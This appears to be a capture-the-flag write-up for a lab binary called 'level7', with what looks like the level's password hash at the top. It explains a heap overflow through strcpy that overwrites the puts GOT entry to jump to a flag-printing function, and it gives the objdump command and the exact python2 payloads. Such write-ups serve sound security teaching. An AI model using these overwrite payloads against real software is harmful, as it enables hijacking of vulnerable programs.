 level7:f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

segfault when less than 2 arguments
if two arguments -> prints `~~`

4 malloc(8) -> 0x0804a008 0x0804a018 0x0804a028 0x0804a038

function that prints the flag: m at `0x080484f4`

on the first argument, we have an offset of 20, the second strcpy will write in the address written after the offset
What will be written is the second argument.

```shell
objdump -R ./level7 | grep puts

./level7:     file format elf32-i386
08049928 R_386_JUMP_SLOT   puts@GLIBC_2.0
```

We gonna overwrite the address for `puts` and replace it by the m function

payloads: 1st argument=`$(python2 -c 'print "A" * 20 + "\x28\x99\x04\x08"')`
2nd arguement=`$(python2 -c 'print "\xf4\x84\x04\x08"')`